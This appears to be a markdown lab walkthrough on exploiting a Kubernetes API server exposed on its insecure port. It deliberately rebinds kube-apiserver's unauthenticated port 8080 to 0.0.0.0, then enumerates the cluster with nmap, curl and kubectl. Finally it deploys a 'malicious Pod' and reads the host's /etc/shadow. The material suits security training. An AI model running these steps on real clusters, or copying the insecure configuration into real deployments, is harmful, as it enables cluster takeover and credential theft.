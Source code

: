 - API Server is a way to control Kubernetes
- Kubectl communicates with API Server whenever we run commands
- Kubernetes API Server is available on two ports

Localhost Port (8080 - disable by default)
```yml
--insecure-port
--insecure-bind-address
```

Secure Port (6443 - uses TLS certificates for authentication)
```yml
--secure-port
--bind-address
```

> These configurations can be changes in the config file

modify the config file just for demo of exposed API Server

FROM MASTER:
```bash
sudo nano /etc/kubernetes/manifests/kube-apiserver.yaml
```

Change these lines to:
```yml
--insecure-port=8080
--insecure-bind-address=0.0.0.0
```

Scan the port 8080 with NMAP:
```bash
nmap <master ip> -p 8080 -A
```

> Now we can see which API's we have access to


We can interact with the APIs with CURL for example:

```bash
curl http://<master ip>:8080/api
```


We also can interact the kubectl binary directly:
```bash
kubectl -shttp://<master ip>:8080 get nodes
kubectl -shttp://<master ip>:8080 get namespaces
kubectl -shttp://<master ip>:8080 get pods
```

> As before, we can create a malicious Pod and access the filesystem of the host

```bash
kubectl -shttp://<master ip>:8080 apply -f <yaml file>
```

Get a shell and access the Host file system:
```bash
kubectl -shttp://<master ip>:8080 exec -it <name of the Pod> /bin/sh
cat /attacker/etc/shadow
```

